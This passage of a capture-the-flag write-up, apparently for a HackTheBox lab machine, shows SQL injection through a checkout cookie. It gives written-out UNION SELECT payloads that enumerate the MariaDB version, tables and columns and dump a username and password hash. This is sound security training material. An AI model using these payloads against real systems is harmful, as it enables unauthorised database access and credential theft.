 And found `checkout.shared.htb` subdomain, also I already found this subdomain while exploring the web application, when trying to proceed to the checkout process it redirected me to that subdomain, so I intercepted the request to investigate the data being sent using `Burp Suite` and found a cookie being added in the form of `{"PRODUCT NAME": quantity"}`, SQL Injection? since I already know it's running MySQL database using [Wappalyzer](https://www.wappalyzer.com/), might be where it starts.

![Burp Suite Data Investigation](https://imgur.com/4j5NT6c.png)

---

## SQLi

Using [this](https://github.com/payloadbox/sql-injection-payload-list) list of SQLi payloads, I managed to inject an SQL query into that cookie value and return database info and It's [MariaDB](https://mariadb.org/) version 10.5.15, the SQLi query is : `'UNION ALL SELECT 1,@@version,3#`.

![SQLi Using Burp Suite](https://imgur.com/qzsHfxa.png)

Here are the queries I used to gather information from the database:

```sql
# BASE SQLI
'UNION ALL SELECT 1,2,3 #
```
```sql
# GET DB VERSION:
'UNION ALL SELECT 1,@@version,3#
```

> 10.5.15-MariaDB-0+deb11u1

```sql
# GET TABLE NAMES:
'UNION ALL SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables #
```


> ... A LOT OF TABLES ...
> ...
> user
> product


```sql
# GET COLUMNS OF TABLE user
'UNION ALL SELECT 1, GROUP_CONCAT(column_name), 3 FROM information_schema.columns WHERE table_name='user' #
```

> id,username,password

```sql
# GET USER DATA:
'UNION ALL SELECT 1, GROUP_CONCAT(id,username,password) ,3 FROM user #
```

> 1, james_mason, fc895d4eddc2fc12f995e18c865cf273
